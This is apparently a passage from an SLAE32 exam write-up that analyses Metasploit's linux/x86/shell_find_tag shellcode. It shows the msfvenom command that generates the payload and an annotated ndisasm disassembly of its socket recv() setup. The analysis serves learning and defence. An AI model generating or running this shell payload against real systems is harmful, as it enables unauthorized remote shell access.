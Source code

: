 List of files:

- [mimick_shellcode.c](https://github.com/rbctee/SlaeExam/blob/main/slae32/assignment/5/part/3/mimick_shellcode.c), a C program that I've written to imitate the instructions ran by the shellcode
- [run_shellcode.c](https://github.com/rbctee/SlaeExam/blob/main/slae32/assignment/5/part/3/run_shellcode.c), a C program that runs the shellcode analysed in this post

## Analysis

### NDISASM

To generate the payload:

```bash
msfvenom -p linux/x86/shell_find_tag -o shellcode.bin
```

To analyse it with `ndisasm`:

```bash
ndisasm shellcode.bin -b 32 -p intel
```

It returns the following output (comments are mine though):

```nasm
                            ; clear EBX and push 0x00000000 to the stack
00000000  31DB              xor ebx,ebx
00000002  53                push ebx

                            ; store pointer to 0x00000000 into ESI
00000003  89E6              mov esi,esp

                            ; 4th argument of recv(): flags
                            ; push to the stack the value 0x00000040 (MSG_DONTWAIT)
00000005  6A40              push byte +0x40

                            ; 3rd argument of recv(): len, i.e. the number of bytes to
                            ;   read from the socket
                            ; push to the stack the value: 0x00000a00 (2560 bytes)
00000007  B70A              mov bh,0xa
00000009  53                push ebx

                            ; 2nd argument of recv(): buffer that will store the data
                            ; push to the stack the value: pointer to 0x00000000
0000000A  56                push esi

                            ; 1st argument of recv(): file descriptor of the socket
                            ; push to the stack the value: 0x00000a00
0000000B  53                push ebx

                            ; 3rd argument of socketcall()
                            ; store into ECX the pointer to its arguments
0000000C  89E1              mov ecx,esp

                            ; exchanges BH with BL, so 0x0a00 -> 0x000a
                            ; EBX = 0xa (SYS_RECV)
0000000E  86FB              xchg bh,bl

                            ; 0x0a00 -> 0x0a01
00000010  66FF01            inc word [ecx]

                            ; call socketcall() syscall, which in turn calls recv()
00000013  6A66              push byte +0x66
00000015  58                pop eax
00000016  CD80              int 0x80
```